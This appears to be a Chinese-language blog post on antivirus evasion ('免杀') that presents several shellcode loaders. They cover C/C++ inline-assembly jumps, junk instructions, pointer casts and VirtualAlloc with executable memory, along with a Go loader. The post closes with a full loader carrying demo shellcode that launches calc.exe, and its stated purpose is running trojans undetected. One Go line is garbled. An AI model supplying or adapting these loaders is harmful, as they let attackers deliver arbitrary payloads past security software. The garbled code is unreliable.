 ```yaml
---
layout: mypost
title: "免杀的艺术-加载器"
categories: [木马免杀]
---
```


## 定义

啥是个加载器呢，就是现在有一段写好的 shellcode，但是它不能被执行，必须有一个东西把它加载到内存中去执行，而不同的语言都会有着不一样的加载器，但其实本质都是一样的，都是一套东西，不管是 Nim 还是 Python 本质上还是去调用一些系统的 API 函数

## C/C++加载

### 嵌入汇编

这个就是个 jmp eax，没个啥难理解的

```
#pragma comment(linker, "/section:.data,RWE")
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = "你的shellcode";
void main()
{
	__asm
	{

		mov eax, offset shellcode
		jmp eax
	}
}
```

### 汇编花指令

嵌入汇编和花指令都差不多，只不过可能花指令可以做一点混淆吧，但本质上都是一样的，都是 jmp eax，但都只能适用于 x86 的木马的生成

```
#pragma comment(linker, "/section:.data,RWE")
#include <windows.h>
#include <stdio.h>

unsigned char xff[] = "你的shellcode";
void main()
{
	__asm
	{
		mov eax, offset xff;
		_emit 0xFF;
		_emit 0xE0;
	}
}
```

### 指针执行

```
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>
#include <stdio.h>

unsigned char buf[] =
"你的shellcode";

int main()
{

	((void(*)(void)) & buf)();
}
```

### 强制类型转换

```
#include <windows.h>
#include <stdio.h>

unsigned char buff[] = "你的shellcode";

void main()
{
	((void(WINAPI*)(void)) & buff)();
}
```

上述四种方法都需要将 data 节的内存设置成可读可写可执行, 以下这段代码的主要作用是在内存中分配一段可执行的内存空间

### 申请动态内存

```
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
//windows控制台程序不出黑窗口

int main()
{
    char shellcode[] = "你的shellcode";

    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);

    ((void(*)())exec)();
}
```

## Golang 加载

```go
package main

import (
  "syscall"
  "unsafe"
)

const (
  MEM_COMMIT             = 0x1000
  MEM_RESERVE            = 0x2000
  PAGE_EXECUTE_READWRITE = 0x40 // 区域可以执行代码，应用程序可以读写该区域。
)

var (
  kernel32      = syscall.MustLoadDLL("kernel32.dll")
  ntdll         = syscall.MustLoadDLL("ntdll.dll")
  VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
  RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
)

func main() {
  xor_shellcode := []byte{} C#  0xfc，

  addr, _, err := VirtualAlloc.Call(0, uintptr(len(xor_shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&xor_shellcode[0])), uintptr(len(xor_shellcode)))
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  syscall.Syscall(addr, 0, 0, 0, 0)
}
```

以上说的这些大家都可以去实战一下，模拟这一块的话，我用的就是一个弹出 calc 的一个 bin 去做实验，看是否能成功的，然后接下来去看一下怎么去生成一个自己的 shellcode，具体的原理可以看我的下一篇文章，这里就简单用下框架，让大家看个效果即可

## shellcode 生成

先看一下这个项目的一个大概，这是个可以生成 64 位马的项目，其实还是蛮稀缺的，想要的 dd 我

![](image-1-1024x477.png)

然后 F7F5 一下，看效果，直接弹计算器哈

![](image-2-1024x675.png)

然后翻 release 文件夹，看生成的.bin 文件

![](image-3.png)

这里不想麻烦的话，直接用个脚本转成.c 结尾的文件然后 cv

![](image-4.png)

然后将该字节码复制到咱们上面的各种 Loader 的对应位置去一一尝试即可，比如演示一个用指针加载的

```
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
/* length: 276992 bytes */
unsigned char buf[] = {
0xe9,0x0b,0x01,0x00,0x00,0xcc,0xcc,0xcc,0x48,0x8b,0xc4,0x48,0x89,0x58,0x08,0x48,
0x89,0x68,0x10,0x48,0x89,0x70,0x18,0x48,0x89,0x78,0x20,0x41,0x56,0x41,0x57,0x65,
0x48,0x8b,0x04,0x25,0x60,0x00,0x00,0x00,0x44,0x8b,0xf9,0x48,0x8b,0x50,0x18,0x4c,
0x8b,0x72,0x20,0x4d,0x8b,0xc6,0x4d,0x8b,0x48,0x20,0x4d,0x8b,0x00,0x4d,0x85,0xc9,
0x0f,0x84,0x89,0x00,0x00,0x00,0x49,0x63,0x41,0x3c,0x42,0x8b,0x8c,0x08,0x88,0x00,
0x00,0x00,0x85,0xc9,0x74,0x79,0x4d,0x8d,0x14,0x09,0x41,0x8b,0x52,0x0c,0x49,0x03,
0xd1,0x33,0xff,0xeb,0x16,0xc1,0xcf,0x0d,0x41,0x0f,0xbe,0xcb,0x41,0x80,0xfb,0x61,
0x8d,0x41,0xe0,0x0f,0x4c,0xc1,0x03,0xf8,0x48,0xff,0xc2,0x44,0x8a,0x1a,0x45,0x84,
0xdb,0x75,0xe2,0x41,0x8b,0x52,0x20,0x45,0x33,0xdb,0x49,0x03,0xd1,0x45,0x39,0x5a,
0x18,0x76,0x3c,0x8b,0x1a,0x49,0x03,0xd9,0x33,0xf6,0xeb,0x16,0xc1,0xce,0x0d,0x40,
0x0f,0xbe,0xcd,0x40,0x80,0xfd,0x61,0x8d,0x41,0xe0,0x0f,0x4c,0xc1,0x03,0xf0,0x48,
0xff,0xc3,0x40,0x8a,0x2b,0x40,0x84,0xed,0x75,0xe2,0x8d,0x04,0x3e,0x44,0x3b,0xf8,
0x74,0x31,0x41,0xff,0xc3,0x48,0x83,0xc2,0x04,0x45,0x3b,0x5a,0x18,0x72,0xc4,0x4d,
0x3b,0xc6,0x0f,0x85,0x5e,0xff,0xff,0xff,0x33,0xc0,0x48,0x8b,0x5c,0x24,0x18,0x48,
0x8b,0x6c,0x24,0x20,0x48,0x8b,0x74,0x24,0x28,0x48,0x8b,0x7c,0x24,0x30,0x41,0x5f,
0x41,0x5e,0xc3,0x41,0x8b,0x4a,0x24,0x49,0x03,0xc9,0x46,0x0f,0xb7,0x04,0x59,0x41,
0x8b,0x4a,0x1c,0x49,0x03,0xc9,0x42,0x8b,0x04,0x81,0x49,0x03,0xc1,0xeb,0xcb,0xcc,
0x40,0x55,0x48,0x8b,0xec,0x48,0x83,0xec,0x40,0xb9,0x8d,0x10,0xb7,0xf8,0xc7,0x45,
0xf0,0x6b,0x65,0x72,0x6e,0xc7,0x45,0xf4,0x65,0x6c,0x33,0x32,0xc7,0x45,0xf8,0x2e,
0x64,0x6c,0x6c,0xc6,0x45,0xfc,0x00,0xc7,0x45,0xe0,0x63,0x61,0x6c,0x63,0xc7,0x45,
0xe4,0x2e,0x65,0x78,0x65,0xc6,0x45,0xe8,0x00,0xe8,0xba,0xfe,0xff,0xff,0x48,0x8d,
0x4d,0xf0,0xff,0xd0,0xb9,0x7f,0xc0,0xb4,0x7b,0xe8,0xaa,0xfe,0xff,0xff,0xba,0x05,
0x00,0x00,0x00,0x48,0x8d,0x4d,0xe0,0xff,0xd0,0x48,0x83,0xc4,0x40,0x5d,0xc3,0xcc
};
int main()
{
    ((void(*)(void)) & buf)();
    return 0;
}
```

![](image-5-1024x623.png)

嗯嗯就这样吧，睡喽！